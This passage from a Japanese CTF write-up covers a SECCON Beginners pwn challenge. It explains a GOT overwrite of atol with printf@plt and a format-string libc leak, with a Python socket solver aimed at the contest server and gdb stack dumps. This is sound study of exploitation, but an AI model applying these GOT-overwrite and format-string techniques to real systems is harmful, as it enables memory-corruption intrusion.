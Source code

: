 ```
   0x00000000004005db <atol@plt+11>:	jmp    0x400570
```
`malloc@got`を`*buffer`に格納して，`'a'*8 + printf@plt`のように書き込むことで8バイト分の余白を持たせつつ`atol@got`を`printf@plt`に書き換えることができます．

ここまででのソルバーのコードはこんな感じ．問題の構造を理解するために`pwntools`などは使わずにやってみます(素人すぎて使い方知らないだけ)．
```python
import socket, time, telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('es.quals.beginners.seccon.jp', 9003))

print(s.recv(2048).decode())
time.sleep(1)

s.sendall(b'-2\n')
time.sleep(1)

print(s.recv(2048).decode())

print("[info] overwrite buffer address to atol@got")
s.sendall(str(0x601038).encode()) # malloc
# s.sendall(str(0x601040).encode()) # atol
# time.sleep(1)

print(s.recv(2048).decode())
time.sleep(1)

print("[info] overwrite atol@got to printf@plt")
s.sendall(b"a"*8 + (0x400590).to_bytes(8, 'little') + b'\n') # printf
# s.sendall((0x400590).to_bytes(8, 'little'))
time.sleep(1)
print(s.recv(2048))
```
念のため各処理のあと１秒スリープさせています．
ここで注意して欲しいのは`malloc@got`をアドレスを書き込む時です．最初は`(0x601038).to_bytes(8, 'little')`のようにリトルエンディアンに変換して書き込んでいたんですが，これではうまくいきません．入力された値は`read`で文字列で読み込まれて`atol`でlongに変換されるのでバイト列で入力したら意図した値を書き込めないんですね〜．素直にアドレスの数値を書き込みましょう．ここ少しはまりました．何はともあれこれでステップ１は完了です．次にいきましょう．

#### ステップ2
ステップ２はprintf関数を使用してformat string attackを行いlibcのアドレスをリークします．
format string attackについては[こちらの記事](https://ptr-yudai.hatenablog.com/entry/2018/10/06/234120)を参照してください．
libcのベースアドレスを取得するためにprintf関数を実行している時のスタックをみてみます．
```
gdb-peda$ x/32g $rsp
0x7fffffffddd0:	0x0000000000000001	0x00000001f7ffe170
0x7fffffffdde0:	0x0000000000602260	0x0000000000000000
0x7fffffffddf0:	0x0000000000000002	0x000000000040087d
0x7fffffffde00:	0x00007ffff7de59a0	0x0000000000000000
0x7fffffffde10:	0x0000000000400830	0x00000000004005f0
0x7fffffffde20:	0x00007fffffffdf10	0x0000000000000000
0x7fffffffde30:	0x0000000000400830	0x00007ffff7a05b97
```
こんな感じです．libcのアドレスは実行ごとに変化するので確定した値はありませんが，毎回末尾に`b97`が現れるメモリがありますね．このメモリの値が差す場所をみてみます．
```
gdb-peda$ x/4wx 0x7ffff7a05b97
0x7ffff7a05b97 <__libc_start_main+231>:	0x82e8c789	0x48000215	0xed23058b	0xc148003c
```
こんな感じになっており，ここが`__libc_start_main+231`であることがわかります．というわけで`%[n]$p`で番号を指定してアドレスを取得します．他の方のwrite upでは25を指定しています．どうやって25というのがわかったんでしょう．僕はやり方がわからなかったので頑張って番号をインクリメントしながら探しました．というわけで25を指定すればlibcのアドレスがわかります．
```python
print("[info] address leak by format string attack")
s.sendall(b"%25$p" + b'\n')
time.sleep(1)
```